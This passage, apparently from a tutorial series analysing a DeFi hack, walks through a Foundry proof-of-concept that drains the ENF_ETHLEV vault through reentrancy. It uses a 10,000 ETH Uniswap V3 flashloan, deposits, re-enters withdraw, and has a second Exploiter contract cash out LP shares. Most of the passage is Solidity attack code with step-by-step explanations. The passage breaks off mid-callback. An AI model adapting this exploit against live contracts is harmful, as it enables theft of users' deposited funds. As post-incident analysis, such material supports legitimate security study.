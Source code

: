 * Attack logic is usually written in functions that start with "test." This function will be executed during testing.
* Initialize the Exploiter contract and execute the flashloan.

```solidity
function testExploit() external {
        deal(address(this), 0);
        emit log_named_decimal_uint(
            "[*] Attacker WETH balance before exploit", WETH.balanceOf(address(this)), WETH.decimals()
        );

        exploiter =  new Exploiter();
        emit log_string("==================== Start of attack ====================");
        Pair.flash(address(this), 0, 10_000 ether, abi.encode(10_000 ether));
        emit log_string("==================== End of attack ====================");
        emit log_named_decimal_uint(
            "[*] Attacker WETH balance after exploit", WETH.balanceOf(address(this)), WETH.decimals()
        );
    }
```

#### **uniswapV3FlashCallback()**

* In this function, we'll implement the interaction with ENF\_ETHLEV after borrowing 10,000 ETH via flashloan. Essentially, this translates our workflow analysis from part 2 into code.
* Withdraw the WETH obtained from the flashloan back to ETH in this account.
* Read the existing assets in the ENF\_ETHLEV contract.
* Deposit an equivalent amount of ETH into the ENF\_ETHLEV contract.
* Call ENF\_ETHLEV's convertToAssets function to read the current LP shares.
* Call ENF\_ETHLEV's withdraw function (where the reentrancy occurs) to withdraw all ETH.
* The Exploiter (another attack contract) executes a withdrawal using the LP shares just received to obtain the corresponding amount of ETH.
* Repay the flashloan.

```solidity
function uniswapV3FlashCallback(uint256 fee0, uint256 fee1, bytes calldata data) external {
        emit log_named_decimal_uint('[*] fee1', fee1, 18);

        WETH.withdraw(WETH.balanceOf(address(this)));
        ENF_ETHLEV.approve(address(ENF_ETHLEV), type(uint).max);
        uint256 assets = ENF_ETHLEV.totalAssets();
        emit log_named_decimal_uint("[*] Attacker's ether balance at the start", address(this).balance, 18);

        ENF_ETHLEV.deposit{value: assets}(assets, address(this)); 
        emit log_named_decimal_uint("[*] Attacker's ether balance after deposit", address(this).balance, 18);
        emit log_named_decimal_uint("[*] Attacker's LP share after deposit", ENF_ETHLEV.balanceOf(address(this)), ENF_ETHLEV.decimals());

        uint256 assetsAmount = ENF_ETHLEV.convertToAssets(ENF_ETHLEV.balanceOf(address(this)));
        ENF_ETHLEV.withdraw(assetsAmount, address(this)); 
        emit log_named_decimal_uint("[*] Attacker's LP share after withdrawing", ENF_ETHLEV.balanceOf(address(this)), ENF_ETHLEV.decimals());
        emit log_named_decimal_uint("[*] Attacker ether balance after withdrawing", address(this).balance, 18);

        exploiter.withdraw(); 

        WETH.deposit{value: address(this).balance}();
        emit log_named_decimal_uint("[*] Attacker's total WETH after attack", WETH.balanceOf(address(this)), WETH.decimals());

        uint256 amount = abi.decode(data, (uint256));
```